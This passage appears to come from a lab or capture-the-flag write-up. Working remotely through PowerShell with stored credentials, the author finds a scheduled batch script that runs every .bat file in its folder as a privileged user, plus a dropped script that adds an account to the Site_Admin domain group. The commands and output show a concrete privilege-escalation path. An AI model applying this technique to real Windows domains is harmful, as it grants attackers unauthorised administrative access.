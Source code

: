 There was an interesting folder called `keepmeon` in the Program Files directory.

```
PS C:\utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{Get-ChildItem 'C:\Program Files\keepmeon' } -credential $cred

    Directory: C:\Program Files\keepmeon

Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    

-a----        12/21/2021   2:57 PM            128 keepmeon.bat                       ATSSERVER                         
-a----         7/16/2022   9:50 AM             45 uwu.bat                            ATSSERVER                         
```

The `keepmeon` folder contained two .bat script files.

```
PS C:\utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{Get-Content 'C:\Program Files\keepmeon\uwu.bat' } -credential $cred

net group Site_Admin awallace /add /domain 
```

I was not able to run the .bat file no matter how I tried (I tried many things). Running the command inside by iteslf resulted in `System Error 5: Access is denied`.

```
PS C:\utils> Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{$(cat C:\"Program Files"\keepmeon\keepmeon.bat) } -credential $cred

REM This is run every 5 minutes. For Lois use ONLY

@echo off

 for /R %%x in (*.bat) do (

 if not "%%x" == "%~0" call "%%x"

)
```

The other script was interesting, as it seemed as if it would run any other .bat files in the same directory.  There seemed to be a scheduled task that would run this every 5 minutes as Lois.  I remembered that earlier I had seen a note mentioning that only Lois could elevate a user to the site admin group, which is what the other script seemed to be doing.  

Note: Looking back, the script `uwu.bat` was likely a privilege escalation script written by another user, and had not been intended to be found there.  When I checked my group membership after this I was already a member of the `site_admin` group.  I think this saved me a minute of trying to figure out how the group was spelled in order to write that batch script myself.  
